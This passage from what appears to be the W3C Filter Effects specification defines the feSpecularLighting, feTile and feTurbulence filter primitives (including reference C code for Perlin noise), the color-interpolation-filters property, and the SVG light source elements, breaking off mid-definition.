| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in surfaceScale specularConstant specularExponent kernelUnitLength |
| DOM Interfaces: | [SVGFESpecularLightingElement](#filter-effects-1:InterfaceSVGFESpecularLightingElement) |

This filter primitive lights a source graphic using the alpha channel as a bump map. The resulting image is an RGBA image based on the light color. The lighting calculation follows the standard specular component of the Blinn-Phong lighting model. The resulting image depends on the light color, light position and surface geometry of the input bump map. The result of the lighting calculation is added. The filter primitive assumes that the viewer is at infinity in the z direction (i.e., the unit vector in the eye direction is (0,0,1) everywhere).

> **Note:** This filter primitive produces an image which contains the specular reflection part of the lighting calculation. Such a map is intended to be combined with a texture from a second filter primitive using the *add* term of the *arithmetic* feComposite method. Multiple light sources can be simulated by adding several of these light maps before applying it to the texture image.

The resulting RGBA image is computed as follows:

`Sr = ks * pow(N.H, specularExponent) * Lr Sg = ks * pow(N.H, specularExponent) * Lg Sb = ks * pow(N.H, specularExponent) * Lb Sa = max(Sr, Sg, Sb)`

where

ks = specular lighting constant  N = surface normal unit vector, a function of x and y  H = "halfway" unit vector between eye unit vector and light unit vector    Lr,Lg,Lb = RGB components of light

See feDiffuseLighting for definition of N and (Lr, Lg, Lb).

The definition of H reflects our assumption of the constant eye vector E = (0,0,1):

`H = (L + E) / Norm(L+E)`

where L is the light unit vector.

Unlike the feDiffuseLighting, the feSpecularLighting filter produces a non-opaque image. This is due to the fact that the specular result (Sr,Sg,Sb,Sa) is meant to be added to the textured image. The alpha channel of the result is the max of the color components, so that where the specular light is zero, no additional coverage is added to the image and a fully white highlight will add opacity.

The feDiffuseLighting and feSpecularLighting filters will often be applied together. An implementation may detect this and calculate both maps in one pass, instead of two.

*Attribute definitions:*

****`surfaceScale`** = "*`<number>`*"**

: height of surface when Ain = 1.

  The initial value for surfaceScale is `1`.

  Animatable: yes.

****`specularConstant`** = "*`<number>`*"**

: ks in Phong lighting model. In SVG, this can be any non-negative number.

  The initial value for specularConstant is `1`.

  Animatable: yes.

****`specularExponent`** = "*`<number>`*"**

: Exponent for specular term, larger is more "shiny".

  The initial value for specularExponent is `1`.

  Animatable: yes.

****`kernelUnitLength`** = "*`<number-optional-number>`*"**

: The first number is the <dx> value. The second number is the <dy> value.

  If the <dy> value is not specified, it defaults to the same value as <dx>. Indicates the intended distance in current filter units (i.e., units as determined by the value of attribute primitiveUnits) for `dx` and `dy`, respectively, in the [surface normal calculation formulas](#filter-effects-1:SurfaceNormalCalculations). By specifying value(s) for kernelUnitLength, the kernel becomes defined in a scalable, abstract coordinate system.

  If kernelUnitLength is not specified, the `dx` and `dy` values should represent very small deltas relative to a given `(x,y)` position, which might be implemented in some cases as one pixel in the intermediate image offscreen bitmap, which is a pixel-based coordinate system, and thus potentially not scalable. For some level of consistency across display media and user agents, it is necessary that a value be provided for kernelUnitLength.

  Animatable: yes.

The light source is defined by one of the child elements feDistantLight, fePointLight or feSpotLight. The light color is specified by property `lighting-color`.

[The example](#filter-effects-1:intro) at the start of this chapter makes use of the feSpecularLighting filter primitive to achieve a highly reflective, 3D glowing effect.

#### 9.20. Filter primitive feTile {#filter-effects-1:feTileElement}

| Name: | **`feTile`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in |
| DOM Interfaces: | [SVGFETileElement](#filter-effects-1:InterfaceSVGFETileElement) |

This filter primitive fills a target rectangle with a repeated, tiled pattern of an input image. The target rectangle is as large as the filter primitive subregion established by the feTile element.

Typically, the input image has been defined with its own filter primitive subregion in order to define a reference tile. feTile replicates the reference tile in both X and Y to completely fill the target rectangle. The top/left corner of each given tile is at location `(x + i*width, y + j*height)`, where `(x,y)` represents the top/left of the input image’s filter primitive subregion, `width` and `height` represent the width and height of the input image’s filter primitive subregion, and `i` and `j` can be any integer value. In most cases, the input image will have a smaller filter primitive subregion than the feTile in order to achieve a repeated pattern effect.

Implementers must take appropriate measures in constructing the tiled image to avoid artifacts between tiles, particularly in situations where the user to device transform includes shear and/or rotation. Unless care is taken, interpolation can lead to edge pixels in the tile having opacity values lower or higher than expected due to the interaction of painting adjacent tiles which each have partial overlap with particular pixels.

#### 9.21. Filter primitive feTurbulence {#filter-effects-1:feTurbulenceElement}

| Name: | **`feTurbulence`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) baseFrequency numOctaves seed stitchTiles type |
| DOM Interfaces: | [SVGFETurbulenceElement](#filter-effects-1:InterfaceSVGFETurbulenceElement) |

This filter primitive creates an image using the Perlin turbulence function. It allows the synthesis of artificial textures like clouds or marble. For a detailed description the of the Perlin turbulence function, see "Texturing and Modeling" [TaM]. The resulting image will fill the entire filter primitive subregion for this filter primitive.

It is possible to create bandwidth-limited noise by synthesizing only one octave.

The C code below shows the exact algorithm used for this filter effect. The filter primitive subregion is to be passed as the arguments fTileX, fTileY, fTileWidth and fTileHeight.

For fractalSum, you get a turbFunctionResult that is aimed at a range of -1 to 1 (the actual result might exceed this range in some cases). To convert to a color or alpha value, use the formula `colorValue = (turbFunctionResult + 1) / 2`, then clamp to the range 0 to 1.

For turbulence, you get a turbFunctionResult that is aimed at a range of 0 to 1 (the actual result might exceed this range in some cases). To convert to a color or alpha value, use the formula `colorValue = turbFunctionResult`, then clamp to the range 0 to 1.

The following order is used for applying the pseudo random numbers. An initial seed value is computed based on the seed attribute. Then the implementation computes the lattice points for R, then continues getting additional pseudo random numbers relative to the last generated pseudo random number and computes the lattice points for G, and so on for B and A.

The generated color and alpha values are in the color space determined by the `color-interpolation-filters` property:

```
/* Produces results in the range [1, 2**31 - 2].
Algorithm is: r = (a * r) mod m
where a = 16807 and m = 2**31 - 1 = 2147483647
See [Park & Miller], CACM vol. 31 no. 10 p. 1195, Oct. 1988
To test: the algorithm should produce the result 1043618065
as the 10,000th generated number if the original seed is 1.
*/
#define RAND_m 2147483647 /* 2**31 - 1 */
#define RAND_a 16807 /* 7**5; primitive root of m */
#define RAND_q 127773 /* m / a */
#define RAND_r 2836 /* m % a */
long setup_seed(long lSeed)
{
  if (lSeed <= 0) lSeed = -(lSeed % (RAND_m - 1)) + 1;
  if (lSeed > RAND_m - 1) lSeed = RAND_m - 1;
  return lSeed;
}
long random(long lSeed)
{
  long result;
  result = RAND_a * (lSeed % RAND_q) - RAND_r * (lSeed / RAND_q);
  if (result <= 0) result += RAND_m;
  return result;
}
#define BSize 0x100
#define BM 0xff
#define PerlinN 0x1000
#define NP 12 /* 2^PerlinN */
#define NM 0xfff
static uLatticeSelector[BSize + BSize + 2];
static double fGradient[4][BSize + BSize + 2][2];
struct StitchInfo
{
  int nWidth; // How much to subtract to wrap for stitching.
  int nHeight;
  int nWrapX; // Minimum value to wrap.
  int nWrapY;
};
static void init(long lSeed)
{
  double s;
  int i, j, k;
  lSeed = setup_seed(lSeed);
  for(k = 0; k < 4; k++)
  {
    for(i = 0; i < BSize; i++)
    {
      uLatticeSelector[i] = i;
      do {
         for (j = 0; j < 2; j++)
           fGradient[k][i][j] = (double)(((lSeed = random(lSeed)) % (BSize + BSize)) - BSize) / BSize;
      } while(fGradient[k][i][0] == 0 && fGradient[k][i][1] == 0);
      s = double(sqrt(fGradient[k][i][0] * fGradient[k][i][0] + fGradient[k][i][1] * fGradient[k][i][1]));
      if (s > 1) {
          i--; // discard the current random vector; try it again.
          continue;
      }
      fGradient[k][i][0] /= s;
      fGradient[k][i][1] /= s;
    }
  }
  while(--i)
  {
    k = uLatticeSelector[i];
    uLatticeSelector[i] = uLatticeSelector[j = (lSeed = random(lSeed)) % BSize];
    uLatticeSelector[j] = k;
  }
  for(i = 0; i < BSize + 2; i++)
  {
    uLatticeSelector[BSize + i] = uLatticeSelector[i];
    for(k = 0; k < 4; k++)
      for(j = 0; j < 2; j++)
        fGradient[k][BSize + i][j] = fGradient[k][i][j];
  }
}
#define s_curve(t) ( t * t * (3. - 2. * t) )
#define lerp(t, a, b) ( a + t * (b - a) )
double noise2(int nColorChannel, double vec[2], StitchInfo *pStitchInfo)
{
  int bx0, bx1, by0, by1, b00, b10, b01, b11;
  double rx0, rx1, ry0, ry1, *q, sx, sy, a, b, t, u, v;
  register i, j;
  t = vec[0] + PerlinN;
  bx0 = (int)t;
  bx1 = bx0+1;
  rx0 = t - (int)t;
  rx1 = rx0 - 1.0f;
  t = vec[1] + PerlinN;
  by0 = (int)t;
  by1 = by0+1;
  ry0 = t - (int)t;
  ry1 = ry0 - 1.0f;
  // If stitching, adjust lattice points accordingly.
  if(pStitchInfo != NULL)
  {
    if(bx0 >= pStitchInfo->nWrapX)
      bx0 -= pStitchInfo->nWidth;
    if(bx1 >= pStitchInfo->nWrapX)
      bx1 -= pStitchInfo->nWidth;
    if(by0 >= pStitchInfo->nWrapY)
      by0 -= pStitchInfo->nHeight;
    if(by1 >= pStitchInfo->nWrapY)
      by1 -= pStitchInfo->nHeight;
  }
  bx0 &= BM;
  bx1 &= BM;
  by0 &= BM;
  by1 &= BM;
  i = uLatticeSelector[bx0];
  j = uLatticeSelector[bx1];
  b00 = uLatticeSelector[i + by0];
  b10 = uLatticeSelector[j + by0];
  b01 = uLatticeSelector[i + by1];
  b11 = uLatticeSelector[j + by1];
  sx = double(s_curve(rx0));
  sy = double(s_curve(ry0));
  q = fGradient[nColorChannel][b00]; u = rx0 * q[0] + ry0 * q[1];
  q = fGradient[nColorChannel][b10]; v = rx1 * q[0] + ry0 * q[1];
  a = lerp(sx, u, v);
  q = fGradient[nColorChannel][b01]; u = rx0 * q[0] + ry1 * q[1];
  q = fGradient[nColorChannel][b11]; v = rx1 * q[0] + ry1 * q[1];
  b = lerp(sx, u, v);
  return lerp(sy, a, b);
}
double turbulence(int nColorChannel, double *point, double fBaseFreqX, double fBaseFreqY,
          int nNumOctaves, bool bFractalSum, bool bDoStitching,
          double fTileX, double fTileY, double fTileWidth, double fTileHeight)
{
  StitchInfo stitch;
  StitchInfo *pStitchInfo = NULL; // Not stitching when NULL.
  // Adjust the base frequencies if necessary for stitching.
  if(bDoStitching)
  {
    // When stitching tiled turbulence, the frequencies must be adjusted
    // so that the tile borders will be continuous.
    if(fBaseFreqX != 0.0)
    {
      double fLoFreq = double(floor(fTileWidth * fBaseFreqX)) / fTileWidth;
      double fHiFreq = double(ceil(fTileWidth * fBaseFreqX)) / fTileWidth;
      if(fBaseFreqX / fLoFreq < fHiFreq / fBaseFreqX)
        fBaseFreqX = fLoFreq;
      else
        fBaseFreqX = fHiFreq;
    }
    if(fBaseFreqY != 0.0)
    {
      double fLoFreq = double(floor(fTileHeight * fBaseFreqY)) / fTileHeight;
      double fHiFreq = double(ceil(fTileHeight * fBaseFreqY)) / fTileHeight;
      if(fBaseFreqY / fLoFreq < fHiFreq / fBaseFreqY)
        fBaseFreqY = fLoFreq;
      else
        fBaseFreqY = fHiFreq;
    }
    // Set up initial stitch values.
    pStitchInfo = &stitch;
    stitch.nWidth = int(fTileWidth * fBaseFreqX + 0.5f);
    stitch.nWrapX = fTileX * fBaseFreqX + PerlinN + stitch.nWidth;
    stitch.nHeight = int(fTileHeight * fBaseFreqY + 0.5f);
    stitch.nWrapY = fTileY * fBaseFreqY + PerlinN + stitch.nHeight;
  }
  double fSum = 0.0f;
  double vec[2];
  vec[0] = point[0] * fBaseFreqX;
  vec[1] = point[1] * fBaseFreqY;
  double ratio = 1;
  for(int nOctave = 0; nOctave < nNumOctaves; nOctave++)
  {
    if(bFractalSum)
      fSum += double(noise2(nColorChannel, vec, pStitchInfo) / ratio);
    else
      fSum += double(fabs(noise2(nColorChannel, vec, pStitchInfo)) / ratio);
    vec[0] *= 2;
    vec[1] *= 2;
    ratio *= 2;
    if(pStitchInfo != NULL)
    {
      // Update stitch values. Subtracting PerlinN before the multiplication and
      // adding it afterward simplifies to subtracting it once.
      stitch.nWidth *= 2;
      stitch.nWrapX = 2 * stitch.nWrapX - PerlinN;
      stitch.nHeight *= 2;
      stitch.nWrapY = 2 * stitch.nWrapY - PerlinN;
    }
  }
  return fSum;
}
```

*Attribute definitions:*

****`baseFrequency`** = "*`<number-optional-number>`*"**

: The base frequency (frequencies) parameter(s) for the noise function. If two `<number>`s are provided, the first number represents a base frequency in the X direction and the second value represents a base frequency in the Y direction. If one number is provided, then that value is used for both X and Y.

  The initial value for baseFrequency is `0`.

  Negative values are unsupported.

  Animatable: yes.

****`numOctaves`** = "*`<integer>`*"**

: The numOctaves parameter for the noise function.

  The initial value for numOctaves is `1`.

  Negative values are unsupported.

  Animatable: yes.

  > **Note:** The contribution of each additional octave to the color and alpha values in the final image is one-half of the preceding octave. At some point, the contribution of additional octaves becomes smaller than the color resolution for a given color depth. UAs may clamp the specified value for numOctaves during the processing depending on the supported color depth. (For example: For a color depth of 8 bits per channel, the UA may clamp the value of numOctaves to 9.)

****`seed`** = "*`<number>`*"**

: The starting number for the pseudo random number generator.

  The initial value for seed is `0`.

  When the seed number is handed over to the algorithm above it must first be truncated, i.e. rounded to the closest integer value towards zero.

  Animatable: yes.

****`stitchTiles`** = "*stitch | noStitch*"**

: If `stitchTiles="noStitch"`, no attempt is made to achieve smooth transitions at the border of tiles which contain a turbulence function. Sometimes the result will show clear discontinuities at the tile borders.

  If `stitchTiles="stitch"`, then the user agent will automatically adjust baseFrequency-x and baseFrequency-y values such that the feTurbulence node’s width and height (i.e., the width and height of the current subregion) contains an integral number of the Perlin tile width and height for the first octave. The baseFrequency will be adjusted up or down depending on which way has the smallest relative (not absolute) change as follows: Given the frequency, calculate `lowFreq=floor(width*frequency)/width` and `hiFreq=ceil(width*frequency)/width`. If frequency/lowFreq < hiFreq/frequency then use lowFreq, else use hiFreq. While generating turbulence values, generate lattice vectors as normal for Perlin Noise, except for those lattice points that lie on the right or bottom edges of the active area (the size of the resulting tile). In those cases, copy the lattice vector from the opposite edge of the active area.

  The initial value for stitchTiles is `noStitch`.

  Animatable: yes.

****`type`** = "*fractalNoise | turbulence*"**

: Indicates whether the filter primitive should perform a noise or turbulence function.

  The initial value for type is `turbulence`.

  Animatable: yes.

> **Example:** ```
> <svg width="450px" height="325px" viewBox="0 0 450 325"
>      xmlns="http://www.w3.org/2000/svg">
>   <title>Example feTurbulence - Examples of feTurbulence operations</title>
>   <desc>Six rectangular areas showing the effects of
>         various parameter settings for feTurbulence.</desc>
>   <g  font-family="Verdana" text-anchor="middle" font-size="10" >
>     <defs>
>       <filter id="Turb1" filterUnits="objectBoundingBox"
>               x="0%" y="0%" width="100%" height="100%">
>         <feTurbulence type="turbulence" baseFrequency="0.05" numOctaves="2"/>
>       </filter>
>       <filter id="Turb2" filterUnits="objectBoundingBox"
>               x="0%" y="0%" width="100%" height="100%">
>         <feTurbulence type="turbulence" baseFrequency="0.1" numOctaves="2"/>
>       </filter>
>       <filter id="Turb3" filterUnits="objectBoundingBox"
>               x="0%" y="0%" width="100%" height="100%">
>         <feTurbulence type="turbulence" baseFrequency="0.05" numOctaves="8"/>
>       </filter>
>       <filter id="Turb4" filterUnits="objectBoundingBox"
>               x="0%" y="0%" width="100%" height="100%">
>         <feTurbulence type="fractalNoise" baseFrequency="0.1" numOctaves="4"/>
>       </filter>
>       <filter id="Turb5" filterUnits="objectBoundingBox"
>               x="0%" y="0%" width="100%" height="100%">
>         <feTurbulence type="fractalNoise" baseFrequency="0.4" numOctaves="4"/>
>       </filter>
>       <filter id="Turb6" filterUnits="objectBoundingBox"
>               x="0%" y="0%" width="100%" height="100%">
>         <feTurbulence type="fractalNoise" baseFrequency="0.1" numOctaves="1"/>
>       </filter>
>     </defs>
>
>     <rect x="1" y="1" width="448" height="323"
>           fill="none" stroke="blue" stroke-width="1"  />
>
>     <rect x="25" y="25" width="100" height="75" filter="url(#Turb1)"  />
>     <text x="75" y="117">type=turbulence</text>
>     <text x="75" y="129">baseFrequency=0.05</text>
>     <text x="75" y="141">numOctaves=2</text>
>
>     <rect x="175" y="25" width="100" height="75" filter="url(#Turb2)"  />
>     <text x="225" y="117">type=turbulence</text>
>     <text x="225" y="129">baseFrequency=0.1</text>
>     <text x="225" y="141">numOctaves=2</text>
>
>     <rect x="325" y="25" width="100" height="75" filter="url(#Turb3)"  />
>     <text x="375" y="117">type=turbulence</text>
>     <text x="375" y="129">baseFrequency=0.05</text>
>     <text x="375" y="141">numOctaves=8</text>
>
>     <rect x="25" y="180" width="100" height="75" filter="url(#Turb4)"  />
>     <text x="75" y="272">type=fractalNoise</text>
>     <text x="75" y="284">baseFrequency=0.1</text>
>     <text x="75" y="296">numOctaves=4</text>
>
>     <rect x="175" y="180" width="100" height="75" filter="url(#Turb5)"  />
>     <text x="225" y="272">type=fractalNoise</text>
>     <text x="225" y="284">baseFrequency=0.4</text>
>     <text x="225" y="296">numOctaves=4</text>
>
>     <rect x="325" y="180" width="100" height="75" filter="url(#Turb6)"  />
>     <text x="375" y="272">type=fractalNoise</text>
>     <text x="375" y="284">baseFrequency=0.1</text>
>     <text x="375" y="296">numOctaves=1</text>
>   </g>
> </svg>
> ```
>
> 
>
> Example of feTurbulence
>
> [View this example as SVG](../filter-effects-1/examples/feTurbulence.svg)

### 10. The `color-interpolation-filters` property {#filter-effects-1:ColorInterpolationFiltersProperty}

The description of the `color-interpolation-filters` property is as follows:

| Field | Value |
| --- | --- |
| Name: | **color-interpolation-filters** |
| [Value:](#css-values-4:value-defs) | auto \| sRGB \| linearRGB |
| [Initial:](#css-cascade-6:initial-values) | linearRGB |
| [Applies to:](#css-cascade-5:applies-to) | All filter primitives |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

****auto****

: Indicates that the user agent can choose either the `sRGB` or `linearRGB` spaces for filter effects color operations. This option indicates that the author doesn’t require that color operations occur in a particular color space.

****sRGB****

: Indicates that filter effects color operations should occur in the gamma-encoded sRGB color space.

****linearRGB****

: Indicates that filter effects color operations should occur in the linear-light sRGB color space.

The `color-interpolation-filters` property specifies the color space for imaging operations performed via filter effects.

> **Note:** The `color-interpolation-filters` property just has an affect on filter operations. Therefore, it has no effect on filter primitives like feOffset, feImage, feTile or feFlood.

> **Note:** The `color-interpolation-filters` has a different initial value than `color-interpolation`. `color-interpolation-filters` has an initial value of `linearRGB`, where as `color-interpolation` has an initial value of `sRGB`. Thus, in the default case, filter effects operations occur in the linearRGB color space, whereas all other color interpolations occur by default in the sRGB color space.

> **Note:** The `color-interpolation-filters` property has no affect on filter functions, which operate in the sRGB color space.

The `color-interpolation-filters` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

### 11. Light source elements and properties {#filter-effects-1:LightSourceDefinitions}

#### 11.1. Introduction {#filter-effects-1:LightSourceIntro}

The following sections define the elements that define a **light source**, feDistantLight, fePointLight and feSpotLight, and property `lighting-color`, which defines the color of the light.

#### 11.2. Light source feDistantLight {#filter-effects-1:feDistantLightElement}

| Name: | **`feDistantLight`** |
| --- | --- |
| Categories: | light source |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) azimuth elevation |
| DOM Interfaces: | [SVGFEDistantLightElement](#filter-effects-1:InterfaceSVGFEDistantLightElement) |

*Attribute definitions:*

****`azimuth`** = "*`<number>`*"**

: Direction angle for the light source on the XY plane (clockwise), in degrees from the x axis.

  The initial value for azimuth is `0`.

  Animatable: yes.

****`elevation`** = "*`<number>`*"**

: Direction angle for the light source from the XY plane towards the Z-axis, in degrees. Note that the positive Z-axis points towards the viewer.

  The initial value for elevation is `0`.

  Animatable: yes.

The following diagram illustrates the angles which azimuth and elevation represent in an XYZ coordinate system.


Angles which azimuth and elevation represent

#### 11.3. Light source fePointLight {#filter-effects-1:fePointLightElement}

| Name: | **`fePointLight`** |
| --- | --- |
| Categories: | light source |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) x y z |
| DOM Interfaces: | [SVGFEPointLightElement](#filter-effects-1:InterfaceSVGFEPointLightElement) |

*Attribute definitions:*

****`x`** = "*`<number>`*"**

: X location for the light source in the coordinate system established by attribute primitiveUnits on the filter element.

  The initial value for x is `0`.

  Animatable: yes.

****`y`** = "*`<number>`*"**

: Y location for the light source in the coordinate system established by attribute primitiveUnits on the filter element.

  The initial value for y is `0`.

  Animatable: yes.

****`z`** = "*`<number>`*"**

: Z location for the light source in the coordinate system established by attribute primitiveUnits on the filter element, assuming that, in the initial local coordinate system , the positive Z-axis comes out towards the person viewing the content and assuming that one unit along the Z-axis equals [one unit in X and Y](https://www.w3.org/TR/SVG11/coords.html#Units_viewport_percentage).

  The initial value for z is `0`.

  Animatable: yes.

#### 11.4. Light source feSpotLight {#filter-effects-1:feSpotLightElement}

| Name: | **`feSpotLight`** |
| --- | --- |
| Categories: | light source |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) x y z pointsAtX pointsAtY pointsAtZ specularExponent limitingConeAngle |
| DOM Interfaces: | [SVGFESpotLightElement](#filter-effects-1:InterfaceSVGFESpotLightElement) |

*Attribute definitions:*

****`x`** = "*`<number>`*"**

: X location for the light source in the coordinate system established by attribute primitiveUnits on the filter element.

  The initial value for x is `0`.

  Animatable: yes.

****`y`** = "*`<number>`*"**

: Y location for the light source in the coordinate system established by attribute primitiveUnits on the filter element.

  The initial value for y is `0`.

  Animatable: yes.

****`z`** = "*`<number>`*"**

: Z location for the light source in the coordinate system established by attribute primitiveUnits on the filter element, assuming that, in the initial local coordinate system, the positive Z-axis comes out towards the person viewing the content and assuming that one unit along the Z-axis equals [one unit in X and Y](https://www.w3.org/TR/SVG11/coords.html#Units_viewport_percentage).

  The initial value for z is `0`.

  Animatable: yes.

****`pointsAtX`** = "*`<number>`*"**

: X location in the coordinate system established by attribute primitiveUnits on the filter element of the point at which the light source is pointing.

  The initial value for pointsAtX is `0`.

  Animatable: yes.

****`pointsAtY`** = "*`<number>`*"**

: Y location in the coordinate system established by attribute primitiveUnits on the filter element of the point at which the light source is pointing.

  The initial value for pointsAtY is `0`.

  Animatable: yes.

****`pointsAtZ`** = "*`<number>`*"**

: Z location in the coordinate system established by the attribute primitiveUnits on the filter element of the point at which the light source is pointing, assuming that, in the initial local coordinate system, the positive Z-axis comes out towards the person viewing the content and assuming that one unit along the Z-axis equals [one unit in X and Y](https://www.w3.org/TR/SVG11/coords.html#Units_viewport_percentage).

  The initial value for pointsAtZ is `0`.

  Animatable: yes.

****`specularExponent`** = "*`<number>`*"**

: Exponent value controlling the focus for the light source.

  The initial value for specularExponent is `1`.

  See section [Filter primitive <feDiffuseLighting>](#filter-effects-1:feDiffuseLightingElement) for how to use specularExponent.

  > **Note:** specularExponent for feSpotLight serves a different use case than specularExponent for feSpecularLighting.

  Animatable: yes.

****`limitingConeAngle`** = "*`<number>`*"**

: A limiting cone which restricts the region where the light is projected. No light is projected outside the cone. limitingConeAngle represents the angle in degrees between the spot light axis (i.e. the axis between the light source and the point to which it is pointing at) and the spot light cone. User agents should apply a smoothing technique such as anti-aliasing at the boundary of the cone.

  If no value is specified, then no limiting cone will be applied.

